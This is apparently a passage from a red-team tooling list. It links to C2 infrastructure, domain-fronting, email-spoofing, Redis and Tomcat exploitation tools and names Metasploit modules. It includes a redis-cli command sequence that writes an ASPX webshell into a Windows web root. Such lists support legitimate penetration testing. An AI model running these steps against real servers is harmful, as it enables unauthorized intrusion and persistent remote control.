 https://github.com/obscuritylabs/RAI

https://github.com/Coalfire-Research/Red-Baron - terraform cloud c2 redirector setup

https://github.com/qsecure-labs/overlord - Red Teaming Infrastructure Automation based on Red-Baron

https://github.com/rmikehodges/hideNsneak - This application assists in managing attack infrastructure for penetration testers by providing an interface to rapidly deploy, manage, and take down various cloud services. These include VMs, domain fronting, Cobalt Strike servers, API gateways, and firewalls.

https://github.com/shr3ddersec/Shr3dKit

https://github.com/t94j0/satellite

https://github.com/Cerbersec/DomainBorrowingC2 - Domain Borrowing is a new method to hide C2 traffic using CDN. It was first presented at Blackhat Asia 2021 by Junyu Zhou and Tianze Ding. 

https://github.com/Dliv3/DomainBorrowing - Domain Borrowing PoC

# Bypass SPF/DKIM/DMARC

https://github.com/chenjj/espoofer

# Redis Exploitation

https://github.com/n0b0dyCN/redis-rogue-server

https://github.com/Ridter/redis-rce

MSF:

* scanner/redis/file_upload

* exploit/linux/redis/redis_replication_cmd_exec

Windows Targets - Webshell upload
```
redis-cli -h targethost -p targetport
config set dir C:\inetpub\wwwroot\
config set dbfilename shell.aspx
set test "Webshell content"
save
```

# Apache Tomcat Exploitation

https://github.com/mgeeky/tomcatWarDeployer - Apache Tomcat auto WAR deployment & pwning penetration testing tool.

https://github.com/00theway/Ghostcat-CNVD-2020-10487 - AJP Exploit CVE-2020-1938

https://github.com/Ridter/redis-rce

# SSRF Exploitation
